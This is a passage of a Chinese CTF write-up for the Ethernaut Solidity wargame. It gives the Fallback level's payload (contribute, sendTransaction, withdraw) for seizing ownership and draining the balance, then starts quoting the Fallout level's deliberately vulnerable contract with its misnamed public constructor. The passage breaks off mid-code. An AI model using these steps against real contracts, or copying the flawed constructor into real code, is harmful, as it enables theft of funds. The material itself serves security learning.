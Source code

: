 1.调用contribute使contribution大于0

2.向合约转账，调用receive，成为owner。

成为owner后，还需要将合约的balance清零，这里需要调用withdraw函数，也就是执行这一句：

```solidity
owner.transfer(address(this).balance);
```

this指针指向的是合约本身，这句话的意思就是合约向owner的地址转帐合约所有的balance。

所以，最终的payload就是：

```solidity
contract.contribute({value: 1})
contract.sendTransaction({value: 1}) 
contract.withdraw() 
```

## Fallout

### 题目描述

Level completed!

Difficulty 2/10

Claim ownership of the contract below to complete this level.

 Things that might help

- Solidity Remix IDE

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
```